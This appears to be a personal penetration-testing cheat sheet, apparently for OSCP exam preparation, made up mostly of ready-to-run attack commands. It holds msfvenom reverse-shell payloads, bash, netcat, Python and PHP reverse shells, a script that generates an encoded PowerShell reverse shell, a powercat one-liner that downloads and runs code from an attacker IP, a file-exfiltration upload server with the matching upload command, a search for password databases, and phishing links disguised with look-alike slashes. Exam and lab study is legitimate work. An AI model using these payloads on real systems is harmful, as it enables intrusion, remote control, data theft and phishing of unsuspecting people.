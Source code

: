 ```yaml
---
layout: blank
pagetitle: Miscellaneous Notes
---
```


[https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/](https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/) [Ippsec’s videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) - vital at the beginning - show a bunch of HTB walkthroughs
- [https://ippsec.rocks/?#](https://ippsec.rocks/?#) - search up video on a topic [HackTheBox Active Directory track](https://app.hackthebox.com/tracks/Active-Directory-101) [TJ Null’s list of OSCP-like HTB machines](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159)
- `for i in \$(seq 1 254); do nc -zv -w 1 {IP/24}.$i {port}; done`
    - We have nmap at home
    - For a more basic ping sweep:
        - `for /l %i in (1,1,254) do @ping {IP/24}.%i -w 1 -n 1`

RDP on kali: `xfreerdp3 /u:{username} /p:{password} /v:{IP} (optional)/d:{domain} (optional)/drive:shared,/home/kali/Downloads/`
- Dealing with powershell wrapping? Just put the entire output in a variable and do `${variable} | Out-GridView`

Fixing Memory Corruption Exploits
- If it needs to be compiled on windows, use mingw-w64
    - `sudo apt install mingw-w64`
    - `i686-w64-mingw32-gcc`
    - `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
    - if compilation errors arise, just search them up
        - `-lws2_32` can be used for undefined references to _imp
        - `-l` can be used for statically link local libraries
- Can update shellcode in exploits with new shellcode using msfvenom
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- Encoding shellcode for binary for buffer overflow: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f raw > shellcode.bin`

Seems the WP admin creds are no longer admin/test, but rather admin/password

Phishing with fake slashes: `https://github.com∕praetorian-inc∕noseyparker∕releases∕download∕v0.23.0∕secret-noseyparker-v0.23.0-aarch64-apple-darwin.tar.gz@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32`

Another example: `https://www.amazon.com∕gp∕product∕B008A0GNA8pr=conplccinc=259d9f6c-ea4f-492b-a741-8ca016e53a70ts=abthh8sjiwjcbgqcpkynoq55p8khgag&dasin=B07774L6TT&plattr=mathplace=priceblockimp@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32?=96298722-d186-4e28-b5e9-2ca14f49d977`

Using SMTP with `swaks`
- To use an SMTP server, we need a user whose credentials we know on the domain `swaks --server {IP_with_SMTP} --body @{body_txt_file} -ap --from {user@domain} --to {target@domain} --auth-user {user@domain} --auth-password {password} --attach @{file_to_attach} --header "{header_text}"`

If error `no PostgreSQL user name specified in startup packet`, make sure to:
- add env variables:

```
export PGUSER=postgres
export PGDATABASE=postgres
```

Connecting to a device/switch from a mac using an ethernet cable:
- Make sure to manually set IP and interface via Network settings after connecting via USB

- `sudo apt install libpq-dev`
- `sudo apt-get install --reinstall postgresql-client`

Run powercat - `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.220:8000/powercat.ps1');powercat -c 192.168.45.220 -p 4444 -e powershell`

Search for password database - `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

To copy an executable, use `iwr -uri http://{kali_IP}/winPEASx64.exe -Outfile winPEAS.exe` instead of curl

Linux reverse shells:
- `bash -i >& /dev/tcp/{IP}/4444 0>&1`
- `busybox nc 10.10.10.10 1234 -e sh` or `busybox nc 10.10.10.10 1234 -e /bin/sh`
- `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
- `<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>`

Windows reverse shell
- Download/transfer netcat (nc.exe within `/usr/share/windows-resources/binaries/nc.exe`)
- `C:\Windows\Temp\nc.exe -e powershell.exe {kali_IP} 4444` Powershell reverse shell

```
import base64
import sys

if len(sys.argv) < 3:
  print('usage : %s ip port' % sys.argv[0])
  sys.exit(0)

payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])

byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())

```

Transfer files with xfreerdp3 - `xfreerdp3 /u:{u} /p:{p} /v:{IP} /drive:mydrive,{local_dir_path}`

Upgrading linux shell:

```
python -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    echo 'os.system('/bin/bash')'
    /bin/sh -i
    /bin/bash -i
    perl -e 'exec "/bin/sh";'
    
```

Exfiltrate files off of a Windows system `sudo python3 app.py`

```

#!/usr/bin/env python3
from http.server import SimpleHTTPRequestHandler, HTTPServer
import os

class FileUploadHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Get the filename from the POST headers if provided
        filename = self.headers.get('filename', 'upload.bin')

        # Save the uploaded file
        with open(filename, 'wb') as f:
            f.write(post_data)

        # Send a response back to the client
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'File uploaded successfully')

if __name__ == "__main__":
    server_address = ('0.0.0.0', 8080)  # Use any port you want
    httpd = HTTPServer(server_address, FileUploadHTTPRequestHandler)
    print(f"Serving HTTP on {server_address[0]} port {server_address[1]} (http://{server_address[0]}:{server_address[1]}/)")
    httpd.serve_forever()
    
```

`Invoke-WebRequest -Uri "http://{kali_IP}:8080/upload" -Method Post -InFile "{filename}" -Headers @{"filename"="{filename}"} -UseBasicParsing`